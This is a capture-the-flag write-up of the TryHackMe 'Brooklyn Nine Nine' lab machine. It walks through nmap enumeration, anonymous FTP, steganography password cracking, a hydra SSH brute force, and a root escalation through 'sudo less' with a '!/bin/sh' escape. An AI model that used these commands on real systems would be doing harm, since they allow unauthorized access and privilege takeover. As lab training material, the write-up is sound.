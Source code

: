 <a href="https://tryhackme.com/room/brooklynninenine"><h1><center>Brooklyn Nine Nine</center></h1></a>
<p>There are two methods of getting into the machine and i will cover both in this write-up.</p>
<p>Without further ado let's start enumerating the machine! First we will use nmap scan. </p>
<pre><code>
$ nmap -sC -sV -oN nmap/init 10.10.48.118
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-17 17:05 EST
Nmap scan report for 10.10.48.118
Host is up (0.044s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.20.116
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.01 seconds
</code></pre>

<p>There are 3 ports open:</p>
<ul> 
  <li> 21 (FTP)</li>
  <li> 22 (SSH)</li>
  <li> 80 (HTTP)</li>
</ul>
<p>We can also see that FTP allows Anonymous login and has <code>note_to_jake.txt</code>! Let's login, download and check the file.</p>
<pre><code>
$ ftp 10.10.48.118
Connected to 10.10.48.118.
220 (vsFTPd 3.0.3)
Name (10.10.48.118:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.01 secs (19.5575 kB/s)
ftp> exit
221 Goodbye.
</code></pre>
<pre><code>
$ cat note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
</code></pre>
<p>Nice! We can now note down 3 potencial usernames - Amy, Jake, Holt. But before we try to crack Jakes weak password let's check a web server on port 80.</p>
<p>Let's see if there is anything useful in the source code...YEP... we found a clue!</p> 
<pre><code>
&lt;p&gt;This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.&lt;/p&gt;
&lt;!-- Have you ever heard of steganography? --&gt;
</code></pre>
<p>Download the picture and let's see what it hides. </p>
<code> $ wget http://10.10.48.118/brooklyn99.jpg </code>

<p>Unfortunately we can't extract it with steghide because we don't have a password. Let's use a tool called <a href="https://github.com/Paradoxis/StegCracker">stegcracker</a>. </p>
<pre><code>
$ stegcracker brooklyn99.jpg /opt/wordlists/rockyou.txt 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/opt/wordlists/rockyou.txt'..
Successfully cracked file with password: <b><---REDACTED---></b>
Tried 20522 passwords
Your file has been written to: brooklyn99.jpg.out
</pre></code>
<pre><code>
$ cat brooklyn99.jpg.out 
Holts Password:
<b><---REDACTED---></b>

Enjoy!!
</pre></code>
<p>Nice we got Holt's password and now all we have to do is ssh in!</p>
<h2>NOTE</h2>
<p>There is another way of getting into the machine. We know that Jake has weak password and we can use hydra to crack it.</p>
<pre><code>
$ hydra -l jake -P /opt/wordlists/rockyou.txt 10.10.48.118 ssh
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking ssh://10.10.48.118:22/
[22][ssh] host: 10.10.48.118   login: jake   password: <b><---REDACTED---></b>
</code></pre>
<p>Now that we have covered how to get both credentials lets ssh in!</p>
<code>$ ssh jake@10.10.48.118 </code>
<p>We need to find <code>user.txt</code> and <code>root.txt</code>. </p>
<pre><code>
$ find / -type f -iname user.txt 2>/dev/null
/home/holt/user.txt
</code></pre>
<p> At this point we could just ssh in as Holt and get the flag but we need to escalate our privaleges to get the root flag anyways so let's get on with the fun part... Getting root access! </p>
<pre><code>
$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
</code></pre>
<p> So Jake can use <code>less</code> with sudo without password! We could just use <code>less</code> and get the contents of user and root flags but that's not fun! <p>
<p> Time to check <a href="https://gtfobins.github.io/">GTFOBins</a> and see if we can get root privaleges.</p> 
<p> Ahha here it is! First use:</p>
<code>
sudo less /etc/profile
</code>
<p> and then just type:</p>
<code> !/bin/sh </code>
<p> And that's it! But let's make sure we are root first.</p>
<pre><code>
# whoami
root
</code></pre>
<p> There we go we are root! That wasnt so hard was it?</p>
<pre><code>
# cat /home/holt/user.txt
<b><---REDACTED---></b>
</code></pre>
<p> And now the root flag.</p>
<pre><code>
# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <b><---REDACTED---></b>

Enjoy!!
</code></pre>

<p>And we are done! CONGRATS!</p>
<p>Don't forget to drink some water and happy hacking!</p>


